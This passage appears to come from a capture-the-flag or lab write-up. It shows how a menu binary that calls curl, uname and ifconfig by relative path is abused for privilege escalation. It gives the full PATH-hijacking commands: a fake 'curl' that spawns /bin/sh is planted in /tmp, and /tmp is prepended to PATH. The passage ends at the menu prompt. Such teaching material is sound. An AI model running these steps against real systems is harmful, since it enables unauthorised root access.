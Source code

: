 If we run the binary, we will see 3 options:

```shell
# Run the binary
/usr/bin/menu

# Results
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```

Use strings to see how the binary works:

```shell
# Using strings
strings /usr/bin/menu

# Results
<SNIP>
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
<SNIP>

```

Using strings, we find out that the binary menu is not using absolute paths, this means we can exploit the fact that the menu binary is running relative paths.

Here we can suppose that status check runs curl -l localhost, kernel version runs uname -r and ifconfig runs ifconfig.

We can use any of the 3 binaries to escalate privileges since all 3 of them are being call without absolute path.

### Abusing Relative PATHs to binaries being called by /usr/bin/menu

Lets exploit this:

```shell
# Move to /tmp and create a fake curl containing a /bin/sh to give us a shell (or enter reverse shell, etc)
cd /tmp
echo /bin/sh > curl

# Give permissions to curl
chmod 777 curl

# Make /tmp the relative path to get run with most priority
export PATH=/tmp:$PATH

# Run the vulnerable menu binary
/usr/bin/menu

# Enter 1 (because entering 1 calls the curl command)
***************************************
```